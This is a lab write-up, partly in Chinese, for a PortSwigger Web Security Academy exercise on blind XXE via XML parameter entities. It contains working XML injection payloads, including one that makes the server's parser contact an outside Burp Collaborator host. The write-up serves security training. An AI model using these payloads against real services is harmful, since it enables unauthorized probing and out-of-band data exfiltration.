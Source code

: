 ```yaml
---
title: 'Lab: Blind XXE with out-of-band interaction via XML parameter entities'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Blind XXE with out-of-band interaction via XML parameter entities
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
* Goal: To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Background
這一題會用到Parameter Entity，也就是當server端擋掉外部的entity輸入時，可以直接在`DOCTYPE`中直接Reference，也就是利用`%`這個字元達到這個效果

## Recon
* Create a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/H1hEjtUNh.png)
    Seems not work properly...


## Exp
* Use Parameter Entity
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://a1cby8s3b3bvzxlb8cfaw4jvqmwfk4.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/rJh0sYLEn.png)

---
![](https://hackmd.io/_uploads/rk7H2FL42.png)
:::

## Reference
[XXE Lab Breakdown: Blind XXE with out-of-band interaction via XML parameter entities](https://youtu.be/xjcSMFKVTW4)
[Lab: Blind XXE with out-of-band interaction via XML parameter entities](https://www.cnblogs.com/Zeker62/p/15190054.html)